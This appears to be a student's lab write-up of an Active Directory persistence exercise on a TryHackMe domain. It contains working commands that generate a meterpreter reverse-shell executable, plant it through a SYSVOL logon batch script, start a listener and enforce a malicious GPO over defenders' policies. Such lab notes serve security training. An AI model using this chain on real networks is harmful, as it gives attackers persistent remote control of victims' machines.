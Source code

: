 ### Preparation

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > exzh_shell.exe
```

Now lets creat a .bat script that will copy our executable to the host and execute it once a user logs in.

exzh_script.bat
```
copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\exzh_shell.exe C:\tmp\<username>_shell.exe && timeout /t 20 && C:\tmp\exzh_shell.exe

```
 Lets upload our files through scp
 ```
scp am0_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/

scp am0_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
```

Lets start our listener 
```
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST persistad; set LPORT 4445;exploit"
```

### GPO Creation
The first step uses our Domain Admin account to open the Group Policy Management snap-in:

1. In your runas-spawned terminal, type MMC and press enter.
2. Click on File->Add/Remove Snap-in...
3. Select the Group Policy Management snap-in and click Add
4. Click OK

You should be able to see the GPO manager:
![[Pasted image 20230428163927.png]]
We will write a GPO that will be applied to all Admins, so right-click on the Admins OU and select Create a GPO in this domain, and Link it here. Give your GPO a name such as username - persisting GPO:
![[Pasted image 20230428164003.png]]
Right-click on your policy and select Enforced. This will ensure that your policy will apply, even if there is a conflicting policy. This can help to ensure our GPO takes precedence, even if the blue team has written a policy that will remove our changes. Now you can right-click on your policy and select edit:
![[Pasted image 20230428164014.png]]
Let's get back to our Group Policy Management Editor:

1. Under User Configuration, expand Policies->Windows Settings.
2. Select Scripts (Logon/Logoff).
3. Right-click on Logon->Properties
4. Select the Scripts tab.
5. Click Add->Browse.
![[Pasted image 20230428164041.png]]

Use your Tier 1 administrator credentials, RDP into one of the servers. If you give it another minute, you should get a callback on your multi-handler:


